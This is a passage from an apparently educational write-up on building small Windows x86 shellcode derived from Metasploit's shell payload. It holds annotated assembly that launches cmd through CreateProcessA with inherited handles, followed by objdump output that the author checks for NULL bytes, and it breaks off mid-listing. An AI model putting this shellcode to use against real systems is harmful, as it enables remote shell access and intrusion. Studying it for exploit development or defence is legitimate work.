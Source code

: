 ~~~

  	;perform the call to CreateProcessA
	push esp               ; Push the pointer to the PROCESS_INFORMATION Structure 
	push eax               ; Push the pointer to the STARTUPINFO Structure
	push esi               ; The lpCurrentDirectory is NULL so the new process will have the same current directory as its parent
	push esi               ; The lpEnvironment is NULL so the new process will have the same enviroment as its parent
	push esi               ; We dont specify any dwCreationFlags 
	inc esi                ; Increment ESI to be one
	push esi               ; Set bInheritHandles to TRUE in order to inheritable all possible handle from the parent
	dec esi                ; Decrement ESI back down to zero
	push esi               ; Set lpThreadAttributes to NULL
	push esi               ; Set lpProcessAttributes to NULL
	push ebx               ; Set the lpCommandLine to point to "cmd",0
	push esi               ; Set lpApplicationName to NULL as we are using the command line param instead

	mov ebx, 0x7c80236b    ; CreateProcessA
	call ebx
~~~

A few modifications were necessary, of course. First, we must set the correct address of `CreateProcessA`. Also, since Metasploit uses [hashes instead of API calls](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_api.asm) to improve obfuscation, we had to change it too. I know, our shellcode is somewhat rudimentary, but it will be smaller I promise.

There is also the good and old issue of the NULL bytes, which Metasploit does not address directly. Lets assemble/link this piece of code and see if there are any NULLs we must solve:

~~~
$ objdump -d /tmp/shell.exe -M intel32

/tmp/shell.exe:     file format pei-i386


Disassembly of section .text:

00401000 <.text>:
  401000:	68 63 6d 64 00       	push   0x646d63
  401005:	89 e3                	mov    ebx,esp
  401007:	57                   	push   edi
  401008:	57                   	push   edi
  401009:	57                   	push   edi
  40100a:	31 f6                	xor    esi,esi
  40100c:	6a 12                	push   0x12
  40100e:	59                   	pop    ecx
  40100f:	56                   	push   esi
  401010:	e2 fd                	loop   40100f <.text+0xf>
  401012:	66 c7 44 24 3c 01 01 	mov    WORD PTR [esp+0x3c],0x101
  401019:	8d 44 24 10          	lea    eax,[esp+0x10]
  40101d:	c6 00 44             	mov    BYTE PTR [eax],0x44
  401020:	54                   	push   esp
  401021:	50                   	push   eax
  401022:	56                   	push   esi
  401023:	56                   	push   esi
  401024:	56                   	push   esi
  401025:	46                   	inc    esi
  401026:	56                   	push   esi
  401027:	4e                   	dec    esi
  401028:	56                   	push   esi
  401029:	56                   	push   esi
~~~